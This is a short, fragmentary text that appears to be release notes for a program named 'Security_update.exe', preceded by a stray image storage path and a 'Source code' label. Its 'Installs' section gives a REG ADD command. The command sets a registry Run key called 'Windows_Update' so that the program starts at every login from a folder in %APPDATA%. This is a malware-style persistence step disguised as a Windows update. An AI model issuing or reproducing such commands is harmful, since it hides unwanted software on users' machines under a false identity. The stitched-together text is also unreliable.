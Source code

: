 #V1 release

##Installs 

REG ADD HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /V Windows_Update /t REG_SZ /F /D %APPDATA%\\Windows_Update\\

##Name

Security_update.exe
